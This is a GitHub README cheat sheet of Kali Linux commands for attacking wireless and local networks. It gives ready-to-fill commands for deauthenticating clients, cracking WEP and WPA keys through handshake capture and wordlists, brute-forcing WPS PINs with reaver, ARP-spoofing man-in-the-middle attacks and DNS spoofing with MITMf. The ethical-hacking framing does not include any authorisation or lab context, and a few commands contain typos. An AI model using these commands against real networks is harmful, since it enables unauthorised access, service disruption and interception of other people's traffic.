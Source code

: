 # Useful Hacking and Penetration Testing Commands

Useful commands in Kali Linux for penetration testing and ethical hacking

## Basic Linux commands: Device information

View information about your own device. IP addresses, adapters connected, etc... 

```bash
ifconfig 
```
View information about wireless interfaces in your device

```bash
iwconfig
```
To change wireless adapter into monitor mode. Monitor mode allows us to sniff packets through the network

```bash
iwconfig wlan0 mode monitor
```

## Preconnection Attack: Airodump-ng

Discover wireless networks within range:
```bash
airodump-ng wlan0
```

To sniff packets in the selected network: 

```bash
airodump-ng --bssid _____ --channel _ --write _test_ wlan0 
```
bssid: mac address of target network
channel: channel of the network
write: if you want to store the packets in a file
wlan0: wireless adapter name

The test file will be available with the .cap file. 
View the .cap file in ```wireshark test.cap```

## Deauthentication Attack

Disconnect any client form any network

```bash
aireplay-ng --dauth <NumOfPackets> -a <NetworkMacaddress> -c <TargetClientMacAddress> -e <WifiNname> <iterface-wlan0>
```
## WEP Cracking

1. Capture a large number of packets with airodump-ng
```bash
airodump-ng --bssid _____ --channel _ --write _test_ wlan0 
```
2. Analyse the captured packets and crack the key with aircrack-ng
```bash
aircrack-ng .capfile
```
3. output: KEY IS FOUND
4. Remove the colons from the key and use it as password

## Fake Authentication Attack

```bash
aireplay-ng --fakeauth 0 -a <TargetMacAddress> -h <WirelessAdapterMacAddress> <interface>
```
**NOTE: Type "ifconfig" to view wireless adapter mac address (unspec ---> first 12 digits)**

This attack injects packets in the network.

## WPA/WPA2
If WPS is Enable:
1. Displays networks with WPS enabled
```bash 
wash --interface wlan0
```
2. 
```bash
aireplay-ng --fakeauth <30> -a <TargetMacAddress> --interface <wlan0>
```
3. Run Reaver in another terminal window
```bash
reaver --bssid <TargetMacAddress> --channel <TargetChannel> --interface <wlan0> -vvv --no-associate
```
**NOTE: if bug error, then download older version of reaver and run ./reaver _______ **

4. Results: WPS PIN and WPA PSK

If WPS is disable:
1. Capture Handshake between devices
```bash
airodump-ng --bssid <TargetMacAddress> --channel <Channel> --write <handshake> <wlan0>
```
- Wait for the handshake
- wait for a new client or disconnect a client with a fake auth attack. 
- WPA handshake stored in the file 

- Create a wordlist
```bash 
crunch [min][max][characters] -T[pattern] -o [FileName]
```
Exampel:
```bash
crunch 6 8 abc12 -o test.txt
```
2. Wordlist attack 
```bash
aircrack-ng <handshake.cap> -w <text.txt>
```

## Man In The Middle Attack (MITM)

1. Scan the network IP with `zenmap` 
Example: 192.168.1.1/24

2. To map IP addresses in the network and mac addresses `arp -a`
3. `arpspoof -i <interface> -t <clientIP> <gatewayIP>`
4. In another window. Tell the router I am the victim: `aprspoof -i <interface> -t <gatewayIP> <clientIP>`
5. In another window. Allow Linx be the router and forward packets: `echo 1 > /proc/sys/net/ipv4/ip_forward`

## Man in the Middle Framework (MITMf)

Download the tool `apt-get install mitmf`

```bash 
mitmf --arp --spoof --gateway <gatewayIP> --target <targetIP> <interface>
```
Use wireshark to sniff packets

## DNS Spoofing with MITMf
1. Start the web server: `service apache2 start` (var/www/html)
2. Configure the A records and add the domain you want to change into your IP address: `leafpad /etc/mitmf/mitmf.conf`
*.___.com = <MyIPAddress>
3. `mitmf --arp --spoof --gateway <routerIP> --target <targetIP> -i <interface> --dns`

## Capturing Screen of Target




## Contributing
Pull requests are welcome. For major changes, please open an issue first to discuss what you would like to change.

Please make sure to update tests as appropriate.

## License
[MIT](https://choosealicense.com/licenses/mit/)